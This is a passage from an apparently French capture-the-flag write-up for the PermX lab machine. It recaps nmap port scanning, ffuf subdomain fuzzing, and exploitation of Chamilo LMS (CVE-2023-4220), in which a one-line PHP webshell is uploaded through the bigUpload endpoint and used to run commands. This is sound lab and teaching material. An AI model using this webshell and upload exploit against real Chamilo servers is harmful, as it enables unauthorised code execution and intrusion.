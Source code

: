             <li class="flex items-start gap-2">
                <i class="fas fa-check text-green-500 mt-1"></i>
                <span>Surveiller les modifications de fichiers système critiques</span>
            </li>
        </ul>
    </div>
</div>

---

## 📝 Récapitulatif des commandes

### 🔍 Phase 1 : Reconnaissance réseau

```bash
# 1. Scan rapide de tous les ports
nmap -Pn -p- --min-rate=1000 -T4 10.10.11.23

# 2. Scan détaillé des ports ouverts
ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.11.23 | grep '^[0-9]' | cut -d'/' -f1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -Pn -sC -sV 10.10.11.23
# → Ports 22 (SSH) et 80 (HTTP) ouverts
```

### 🌐 Phase 2 : Énumération web

```bash
# 1. Configuration DNS
echo "10.10.11.23 permx.htb" | sudo tee -a /etc/hosts

# 2. Fuzzing de sous-domaines (Host header)
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ \
     -u http://permx.htb/ -H 'Host: FUZZ.permx.htb' -t 200 -ic -fw 18
# → Découverte de lms.permx.htb (Chamilo LMS)

# 3. Ajouter le sous-domaine
echo "10.10.11.23 lms.permx.htb" | sudo tee -a /etc/hosts
```

### 💥 Phase 3 : Exploitation Chamilo (CVE-2023-4220)

```bash
# 1. Créer un webshell PHP simple
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# 2. Upload via la vulnérabilité bigUpload
curl -F 'bigUploadFile=@shell.php' \
'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
# → shell.php uploadé dans /files/

# 3. Tester le webshell
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/shell.php?cmd=id'
# → Confirmation d'exécution de code
```
